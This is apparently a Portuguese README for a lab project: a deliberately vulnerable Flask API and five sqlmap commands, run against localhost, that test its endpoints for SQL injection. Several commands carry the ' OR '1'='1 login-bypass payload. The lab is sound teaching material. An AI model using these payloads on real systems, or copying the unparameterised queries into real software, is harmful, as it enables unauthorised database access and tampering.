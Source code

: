 # Testes de SQL Injection com SQLMap

Este repositório contém uma API Flask vulnerável a SQL Injection para fins de teste e demonstração. O objetivo é demonstrar como o SQLMap pode ser usado para realizar ataques de injeção SQL em APIs que não utilizam práticas de segurança adequadas, como o uso de parâmetros preparados.

## Funcionalidade

A API oferece endpoints para gerenciamento de usuários, incluindo:
- Criação de usuários
- Edição de usuários
- Exclusão de usuários
- Consulta de usuários (por ID ou todos os usuários)
- Login de usuários

Esta API é vulnerável a SQL Injection em todos os endpoints que utilizam consultas SQL sem parâmetros preparados, permitindo a exploração dessa falha de segurança.

## Pré-requisitos

- Docker
- Docker Compose

## Como Rodar a Aplicação

Para rodar a aplicação, você pode usar o Docker com o `docker-compose`.

1. Clone este repositório:

   ```bash
   git clone <URL do repositório>
   cd <diretório do repositório>
   ```
2. Execute o Docker Compose para iniciar a aplicação:

   ```bash
   docker-compose up -d
   ```

### Teste 1: Testando o endpoint `GET /user?id={id}`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint que recupera um usuário pelo ID:

 ```bash
    python3 sqlmap.py -u "http://localhost:5000/user?id=1" --batch --dbs --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/user?id=1"`: URL do endpoint com o parâmetro `id`.
- `--dbs`: Solicita ao sqlmap que recupere o nome dos bancos de dados disponíveis.
- `--risk=3 --level=5`: Define o nível de risco e o nível de teste do sqlmap para realizar testes mais agressivos e profundos.
- `--batch`: Modo automatizado, sem prompts de interação.

Este teste irá verificar se a aplicação está vulnerável a SQL Injection no parâmetro `id` e buscará detalhes do banco de dados.

### Teste 2: Testando o endpoint `POST /login`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint de login:

 ```bash
python3 sqlmap.py -u "http://localhost:5000/login" --batch --data "email=admin@example.com&password=' OR '1'='1" --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/login"`: URL do endpoint de login.
- `--data "email=admin@example.com&password=' OR '1'='1"`: Envia dados de login com uma injeção SQL no parâmetro `password`.
- `--risk=3 --level=5`: Configura os níveis de risco e profundidade de teste.
- `--batch`: Modo automatizado, sem prompts de interação.

Este comando irá testar se é possível realizar um login bypass usando SQL Injection, explorando a falha no parâmetro `password`.

### Teste 3: Testando o endpoint `POST /create_user`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint que cria um novo usuário:

 ```bash
python3 sqlmap.py -u "http://localhost:5000/create_user" --batch --data "name=Test&email=test@example.com&password=' OR '1'='1" --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/create_user"`: URL do endpoint de criação de usuário.
- `--data "name=Test&email=test@example.com&password=' OR '1'='1"`: Envia dados com injeção SQL no parâmetro `password`.
- `--risk=3 --level=5`: Configura os níveis de risco e profundidade de teste.
- `--batch`: Modo automatizado, sem prompts de interação.

Este teste verifica se é possível criar um novo usuário através de uma injeção SQL no parâmetro `password`.

### Teste 4: Testando o endpoint `PUT /edit_user?id={id}`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint que edita um usuário existente:

 ```bash
python3 sqlmap.py -u "http://localhost:5000/edit_user?id=1" --batch --data "name=UpdatedName&email=updated@example.com&password=' OR '1'='1" --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/edit_user?id=1"`: URL do endpoint de edição de usuário.
- `--data "name=UpdatedName&email=updated@example.com&password=' OR '1'='1"`: Envia dados de edição com uma injeção SQL no parâmetro `password`.
- `--risk=3 --level=5`: Configura os níveis de risco e profundidade de teste.
- `--batch`: Modo automatizado, sem prompts de interação.

Este teste irá verificar se é possível alterar os dados de um usuário existente através de uma injeção SQL no parâmetro `password`.

### Teste 5: Testando o endpoint `DELETE /delete_user?id={id}`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint que deleta um usuário:
 
 ```bash
python3 sqlmap.py -u "http://localhost:5000/delete_user?id=1" --batch --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/delete_user?id=1"`: URL do endpoint de deletação de usuário.
- `--risk=3 --level=5`: Configura os níveis de risco e profundidade de teste.
- `--batch`: Modo automatizado, sem prompts de interação.

Este teste verificará se é possível deletar um usuário utilizando uma injeção SQL no parâmetro `id`.

## Como Funciona a Aplicação

- A aplicação é um servidor Flask que expõe diversas rotas vulneráveis.
- Ela se conecta a um banco de dados PostgreSQL, que armazena informações sobre usuários.
- A vulnerabilidade de SQL Injection está presente porque as consultas SQL são formadas diretamente a partir de parâmetros fornecidos pelo usuário, sem o uso de parâmetros preparados ou ORM.

### Endpoints da API

- `GET /`: Retorna uma mensagem de teste.
- `GET /user?id={id}`: Recupera um usuário pelo ID.
- `GET /users`: Recupera todos os usuários.
- `POST /login`: Realiza o login de um usuário.
- `POST /create_user`: Cria um novo usuário.
- `PUT /edit_user?id={id}`: Edita um usuário existente.
- `DELETE /delete_user?id={id}`: Deleta um usuário.

## Conclusão

Este projeto serve como uma demonstração de como vulnerabilidades de SQL Injection podem ser exploradas em uma aplicação web. Utilize o `sqlmap` para testar cada uma das rotas e explorar as falhas de segurança da API.